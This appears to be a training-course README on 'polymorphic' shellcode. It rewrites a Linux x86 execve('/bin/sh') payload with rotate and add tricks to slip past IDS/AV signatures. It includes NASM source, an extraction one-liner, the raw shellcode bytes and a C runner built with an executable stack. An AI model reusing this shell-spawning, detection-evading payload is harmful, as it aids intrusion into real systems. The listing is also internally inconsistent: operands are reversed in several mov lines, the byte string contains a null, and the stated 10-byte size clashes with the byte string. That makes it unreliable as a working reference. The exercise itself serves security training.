 # Assignment-VI - Polymorphic Shellcode

Challenge 01 - EXECVE modified version ( Reference : http://shell-storm.org/shellcode/files/shellcode-811.php )

Introduction
Polymorphism is the ability of an object to take on many forms. For pushing the value 0x6e69622f(nib/) into the stack will alert the IPS/AV. Instead we can go around the clock and push the dword 0x6e69622e and add a corresponding 0x00000001 so that it will be hard for the IDS/IPS/AV to detect the code for any possible execves.


### Challenge 1 : Analyzing Linux x86 execve("/bin/sh") - 28 bytes
http://shell-storm.org/shellcode/files/shellcode-811.php

This is an execve("/bin/sh") of 28 byte. Let's check the assembly code.

```
08048060 <_start>:
 8048060: 31 c0                 xor    %eax,%eax
 8048062: 50                    push   %eax
 8048063: 68 2f 2f 73 68        push   $0x68732f2f
 8048068: 68 2f 62 69 6e        push   $0x6e69622f
 804806d: 89 e3                 mov    %esp,%ebx
 804806f: 89 c1                 mov    %eax,%ecx
 8048071: 89 c2                 mov    %eax,%edx
 8048073: b0 0b                 mov    $0xb,%al
 8048075: cd 80                 int    $0x80
 8048077: 31 c0                 xor    %eax,%eax
 8048079: 40                    inc    %eax
 804807a: cd 80                 int    $0x80
 ```
 
 So the modified code looks as follows :

 ```
global _start

section .text

_start:

xor    eax, eax      ; zero our eax
push   eax

; push   0x68732f2f

mov eax, 0xd0e65e5e
ror eax, 1                       ; shift the register by 1 ro right
push eax

; push   0x6e69622f
add eax, 0x5f63300               ; add 5f63300 to eax register to push 6e69622f                                       
push eax

mov    esp,ebx
mov    eax,ecx
mov    eax,edx
mov    al,0xb
int    0x80

; End section for exit call
xor    eax,eax
inc    eax
int    0x80
 ```
 
 Here I have done two few changes to the code : 
 
 1) The eax register for both 0x68732f2f is first brought to it's original form by first ROR the register by left.
 2) For this research, I have used bit shift calculator and shifted the accumulator by 1.
 3) Use the same method, I have added ror by 1 to shift the register back to it's original form to perform execve.
 4) Next, I have added 5f63300 to the accumulated eax to achieve 6e69622f instead of directly pushing it to the register.
 
 Compile the code using the "./compile.sh execve-modified".
 
 Use the following objdump to retrieve the shellcode of the nasm file.
  ```
 objdump -d ./execve-modified|grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-6 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g'
  ```
  
shellcode : "\x31\xc0\x50\xb8\x5e\x5e\xe6\xd0\xd1\xc8\x50\x05\x00\x33\xf6\x05\x50\x89\xdc\x89\xc8\x89\xd0\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"

Now copy the obtained shellcode and provide it in the shellcode.c 
 ```
 #include<stdio.h>
#include<string.h>

unsigned char code[] = \
"\x31\xc0\x50\xb8\x5e\x5e\xe6\xd0\xd1\xc8\x50\x05\x00\x33\xf6\x05\x50\x89\xdc\x89\xc8\x89\xd0\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"

int main()
{

        printf("Shellcode Length:  %d\n", strlen(code));

        int (*ret)() = (int(*)())code;

        ret();

}
  ```

Compiling the shellcode using -z execstack ( gcc -fno-stack-protector -z execstack ) and run the shellcode file.

The observed size of shellcode : 10 bytes


